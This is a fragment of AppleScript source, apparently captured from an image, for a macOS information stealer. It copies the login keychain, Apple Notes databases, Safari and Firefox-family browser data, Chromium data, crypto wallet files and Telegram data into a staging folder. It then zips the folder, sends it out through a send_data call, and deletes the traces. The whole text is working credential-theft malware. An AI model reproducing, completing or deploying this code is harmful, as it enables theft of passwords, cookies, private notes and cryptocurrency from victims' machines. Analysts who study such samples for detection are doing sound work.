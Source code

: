 ```ap
readwrite(library & "@tonkeeper/desktop/config.json", "deskwallets/TonKeeper/config.json")
readwrite(profile & "/Library/Keychains/login.keychain-db", writemind & "keychain")
if release then
	readwrite2(profile & "/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite", writemind & "FileGrabber/NoteStore.sqlite")
	readwrite2(profile & "/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite-wal", writemind & "FileGrabber/NoteStore.sqlite-wal")
	readwrite2(profile & "/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite-shm", writemind & "FileGrabber/NoteStore.sqlite-shm")
	readwrite2(profile & "/Library/Containers/com.apple.Safari/Data/Library/Cookies/Cookies.binarycookies", writemind & "FileGrabber/Cookies.binarycookies")
	readwrite(profile & "/Library/Cookies/Cookies.binarycookies", writemind & "FileGrabber/saf1")
end if
if filegrabbers then
	filegrabber(writemind)
end if
writeText(username, writemind & "username")
set ff_paths to {library & "Firefox/Profiles/", library & "Waterfox/Profiles/", library & "Pale Moon/Profiles/"}
repeat with firefox in ff_paths
	try
		parseFF(firefox, writemind)
	end try
end repeat
chromium(writemind, chromiumMap)
deskwallets(writemind, walletMap)
telegram(writemind, library)
do shell script "ditto -c -k --sequesterRsrc " & writemind & " /tmp/out.zip"
send_data(0)
do shell script "rm -r " & writemind
do shell script "rm /tmp/out.zip"
'&
```
